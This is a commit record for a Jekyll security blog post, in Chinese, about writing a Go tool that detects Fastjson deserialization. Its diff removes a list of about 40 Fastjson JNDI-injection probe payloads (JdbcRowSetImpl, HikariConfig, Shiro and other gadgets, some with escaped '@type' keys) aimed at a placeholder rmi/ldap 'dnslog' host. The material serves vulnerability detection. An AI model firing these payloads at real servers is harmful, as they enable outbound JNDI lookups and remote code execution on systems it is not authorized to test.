

Before and after one commit to youki992/youki992.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code.

Commit message:
Update 2022-5-17-Golang-Fastjson.md

```diff
--- a/_posts/2022-5-17-Golang-Fastjson.md
+++ b/_posts/2022-5-17-Golang-Fastjson.md
@@ -1,47 +1,7 @@
-
-
 # Golang编写Fastjson检测程序
 
 基于上篇Fastjson文章大多在分析和测试其他师傅的思路，这里实践写一个检测程序
-fastjson出网探测语句如下，借鉴blby师傅写过的Python脚本：
-{"@type":"java.net.Inet4Address","val":"dnslog"}
-{"@type":"java.net.Inet6Address","val":"dnslog"}
-{{"@type":"java.net.URL","val":"dnslog"}:"x"}
-{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"dnslog"}}""}
-Set[{"@type":"java.net.URL","val":"dnslog"}]
-Set[{"@type":"java.net.URL","val":"dnslog"}
-{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}
-{"@type":"java.net.URL","val":"dnslog"}
-{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://dnslog", "autoCommit":true}
-{"@type":"com.mchange.v2.c3p0.JndiRefForwardingDataSource","jndiName":"rmi://dnslog", "loginTimeout":0'}{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","dataSourceName":"ldap://dnslog", "autoCommit":true}
-{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","dataSourceName":"ldap://dnslog", "autoCommit":true}
-{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{,"dataSourceName":"ldap://dnslog", "autoCommit":true}
-{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"ldap://dnslog"}}
-{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://dnslog","autoCommit":true}}
-{"@type":"com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://dnslog"}
-{"@type":"com.zaxxer.hikari.HikariConfig","healthCheckRegistry":"ldap://dnslog"}
-{"@type":"oracle.jdbc.connector.OracleManagedConnectionFactory","xaDataSourceName":"rmi://dnslog"}
-{"@type":"org.apache.commons.configuration.JNDIConfiguration","prefix":"ldap://dnslog"}{"@type":"org.apache.commons.proxy.provider.remoting.SessionBeanProvider","jndiName":"ldap://dnslog","Object":"a"}
-{"@type":"org.apache.xbean.propertyeditor.JndiConverter","AsText":"rmi://dnslog"}
-{"@type":"org.apache.cocoon.components.slide.impl.JMSContentInterceptor", "parameters": {"@type":"java.util.Hashtable","java.naming.factory.initial":"com.sun.jndi.rmi.registry.RegistryContextFactory","topic-factory":"ldap://dnslog"}, "namespace":""}
-{"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://dnslog"}
-{"@type":"org.apache.shiro.realm.jndi.JndiRealmFactory", "jndiNames":["ldap://dnslog"], "Realms":[""]}
-{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://dnslog"}
-{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","healthCheckRegistry":"ldap://dnslog"}
-{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"ldap://dnslog"}
-{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTransaction":"ldap://dnslog"}}
-{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup", "jndiNames":["ldap://dnslog"], "tm": {"$ref":"$.tm"}}
-{"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://dnslog","instance":{"$ref":"$.instance"}}
-{"@type":"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://dnslog"}
-{"@type":"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig","healthCheckRegistry":"ldap://dnslog"}
-{"@type":"com.caucho.config.types.ResourceRef","lookupName": "ldap://dnslog", "value": {"$ref":"$.value"}}
-{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://dnslog","autoCommit":true}
-{  "@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://dnslog","autoCommit":true}
-{/*s6*/"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://dnslog","autoCommit":true}
-{\n"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://dnslog","autoCommit":true}
-{"@type"\b:"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://dnslog","autoCommit":true}
-{"\u0040\u0074\u0079\u0070\u0065":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://dnslog","autoCommit":true}
-{"\x40\x74\x79\x70\x65":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://dnslog","autoCommit":true}
+fastjson出网探测语句大概有40句多，这里贴不上github一直会报错，可以进我的Fastjson项目中查看
 
 请求方式为POST，最多再加几个headers，这里面还没算上加上bypass的
 
```
